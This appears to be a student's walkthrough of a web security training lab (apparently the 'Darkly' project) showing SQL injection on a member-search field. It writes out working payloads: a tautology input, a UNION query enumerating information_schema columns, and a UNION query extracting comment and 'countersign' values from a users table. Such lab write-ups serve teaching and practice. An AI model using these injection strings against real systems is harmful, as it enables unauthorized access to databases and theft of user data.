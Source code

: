 ## SQL Injection

Here we can search for member by ID.

Using a quick ```1 OR 1 = 1``` show us all the image url and title. That confirme SQL inujection is possible.   

To go futher, we gonna look for the tablename of the db's table.  
To do so we are gonna use basic SQL input using UNION to get all table_name and column : ```1 or 1 = 1 UNION select table_name, column_name FROM information_schema.columns```

![image](./Ressources/categorie_users_table_darkly.png)

We see here that the image are store in ```users```

that have 8 columns : 
```
- user_id
- first_name
- last_name
- town
- country
- planet 
- commentaire
- countersign
``` 

So now we are looking in the comment section to look throw interessing information : 
``` 1 or 1=1 UNION SELECT Commentaire, countersign FROM users```

to get 
![image2](./Ressources/sql_commentaire_countersign_table_users.png)
